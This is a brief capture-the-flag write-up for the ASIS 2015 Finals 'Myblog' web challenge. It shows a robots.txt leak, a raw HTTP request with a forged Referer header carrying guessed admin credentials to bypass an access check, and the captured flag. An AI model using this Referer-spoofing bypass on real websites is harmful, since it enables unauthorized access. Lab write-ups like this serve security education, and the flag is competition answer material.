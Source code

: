 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Myblog"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by one of my teammates, nguyen*

<http://myblog.asis-ctf.ir:8088/robots.txt>
{% highlight text %}
User-agent: *
Disallow: /myblog_private_dir3ct0ry
{% endhighlight %}

From printing feature you can see the page by sending the correct referer header.
Referer: <http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/>

{% highlight http %}
GET /printpage.php?id=2417648298 HTTP/1.1
Host: myblog.asis-ctf.ir:8088
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:41.0) Gecko/20100101 Firefox/41.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin
Connection: keep-alive
{% endhighlight %}

After some combinations of commons params name I decided to send them all

Referer: http://myblog.asis-ctf.ir:8088/myblog_private_dir3ct0ry/?username=admin&password=admin&login=admin&user=admin

And I got this pdf has flag:
{% highlight text %}
ASIS{9c846eab5200c267cb593437780caa4d}
{% endhighlight %}